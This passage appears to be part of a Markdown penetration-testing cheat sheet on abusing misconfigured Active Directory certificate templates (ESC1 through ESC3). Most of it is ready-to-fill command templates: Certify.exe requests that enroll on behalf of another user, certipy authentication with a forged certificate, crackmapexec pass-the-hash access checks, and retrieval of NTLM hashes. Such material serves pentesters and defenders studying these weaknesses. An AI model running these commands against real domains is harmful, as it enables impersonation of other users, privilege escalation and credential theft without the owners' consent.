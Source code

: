 ````
```
certipy auth -pfx 'esc1.pfx'
```

#### Check access
```
cme smb <FQDN> -u <USER> -H <NTLM HASH>
```

### ESC2 Modifiable SAN
- Same as ESC1 only EKU is different. A certificate with no EKUs (SubCA certificate) can be abused for any purpose as well. It could also be used to sign new certificates.
- Requirements
	- Extended Key Usage: `Any Purpose` (`2.5.29.37.0`)
	- Certificate-Name-Flag: `ENROLLEE_SUPPLIES_SUBJECT` attribute is enabled: allows the certificate requestor to specify any subjectAltName (SAN) to request a certificate as any user 
	- User with Enrollment Rights

#### Abuse same as ESC1 for Windows/Linux
- [ESC1 Link](#ESC1-Request-SAN-of-other-user)

### ESC3 Agent certificate & Enroll on behalf of other user
- Requires two certficate templates
	- Template 1
		- Extended Key Usage: `Certificate Request Agent` (`1.3.6.1.4.1.311.20.2.1`)
		- User with Enrollment Rights
	- Template 2
		- Extended Key Usage: `Client Authentication` (`1.3.6.1.5.5.7.3.2`)
		- Authorized Signatures Required: `1`
		- Application Policies: `Certificate Request Agent` (Doesn't show in certipy, Auth sig 1 is good)
		- User with Enrollment Rights

### Windows
#### Request Enrollment Agent Certificate
- Template 1
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME 1> /user:<USER TO ENROLL> /domain:<DOMAIN>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Enroll agent on behalf of another user
- Template 2

```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME 2> /onbehalfof:<DOMAIN>\<USER> /enrollcert:<PATH TO cert.pfx> /enrollcertpw:<PASSWORD> /domain:<DOMAIN>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
````